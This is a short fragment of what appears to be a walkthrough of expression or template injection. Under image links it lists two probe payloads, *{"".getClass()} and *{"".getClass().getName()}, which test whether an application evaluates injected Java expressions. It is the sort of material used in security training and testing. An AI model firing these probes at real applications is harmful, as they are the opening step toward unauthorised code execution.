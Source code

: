     ![](./IMG/29.png)

    ![](./IMG/30.png)



### Payload command 
Command : 
```
*{"".getClass()}
```

Result : 

![](./IMG/31.png)
Command : 
```
*{"".getClass().getName()}
```